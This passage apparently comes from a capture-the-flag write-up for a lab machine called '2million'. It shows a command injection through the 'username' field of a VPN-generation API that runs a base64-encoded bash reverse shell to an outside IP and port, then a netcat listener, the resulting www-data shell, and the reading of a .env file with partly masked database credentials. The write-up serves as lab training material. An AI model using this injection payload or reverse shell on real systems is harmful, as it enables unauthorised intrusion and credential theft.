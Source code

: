 ```
        }
    })
```

Trying to get the foothold and shell on the server.
```
$.ajax({
        type: "POST",
        data: JSON.stringify({"username": "test; echo \"L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjExOS80NDQ0IDA+JjE=\" | base64 -d | bash"}),
        dataType: "appjson",
        contentType: "application/json",
        url: '/api/v1/admin/vpn/generate',
        success: function (response) {
            console.log(response)
        },
        error: function (response) {
            console.log(response)
        }
    })


$nc -lvnp 4444

www-data@2million:~/html$id
www-data
```



### User

Enumeration for user password.
```
www-data@2million:~/html$ ls -la
total 56
drwxr-xr-x 10 root root 4096 Dec 27 02:10 .
drwxr-xr-x  3 root root 4096 Jun  6  2023 ..
-rw-r--r--  1 root root   87 Jun  2  2023 .env
-rw-r--r--  1 root root 1237 Jun  2  2023 Database.php
-rw-r--r--  1 root root 2787 Jun  2  2023 Router.php
drwxr-xr-x  5 root root 4096 Dec 27 02:10 VPN
drwxr-xr-x  2 root root 4096 Jun  6  2023 assets
drwxr-xr-x  2 root root 4096 Jun  6  2023 controllers
drwxr-xr-x  5 root root 4096 Jun  6  2023 css
drwxr-xr-x  2 root root 4096 Jun  6  2023 fonts
drwxr-xr-x  2 root root 4096 Jun  6  2023 images
-rw-r--r--  1 root root 2692 Jun  2  2023 index.php
drwxr-xr-x  3 root root 4096 Jun  6  2023 js
drwxr-xr-x  2 root root 4096 Jun  6  2023 views
```

Checking the environment file:
```
www-data@2million:~/html$ cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=Super*********123
```
